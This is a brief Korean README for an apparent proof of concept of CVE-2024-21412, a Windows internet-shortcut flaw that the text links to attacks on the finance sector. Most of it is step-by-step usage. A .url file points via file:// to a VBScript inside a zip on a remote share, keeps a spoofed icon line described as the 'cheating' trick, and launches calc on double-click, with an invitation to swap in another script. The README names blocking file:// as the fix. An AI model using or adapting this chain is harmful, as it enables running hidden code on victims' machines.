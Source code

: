 
CVE-2024-21412  
  
배경:  
2023년 말 Water Hydra에서 금융 산업 상대로 URLShorcut 취약점 이용하는 것 확인  
  
목적:  
URL바로가기로 zip 내부 파일까지 다이렉트 접근 가능  
  
사용법:  
1. test.zip파일을 포함한 폴더 공유폴더로 지정(Everyone 접근 가능)
2. testing.url(바로가기) 파일을 메모장으로 오픈
3. URL=file://10.17.214.58/test/test.zip/test.vbs (이부분의 IP를 공유폴더의 아이피로 변경)  
**주의: 해당취약점은 IconFile=C:\Windows\System32\Imageres.dll을 이용해 Cheating이 들어가므로 건들지말것**
4. testing.url 더블클릭해서 계산기 켜지는 것을 확인(변경을 원할 시 vbs스크립트 변경하여 사용)  
  
성공 확인방법  
calc가 실행되면 성공  
**조치를 하기위해서는 file://의 사용을 막아야한다**
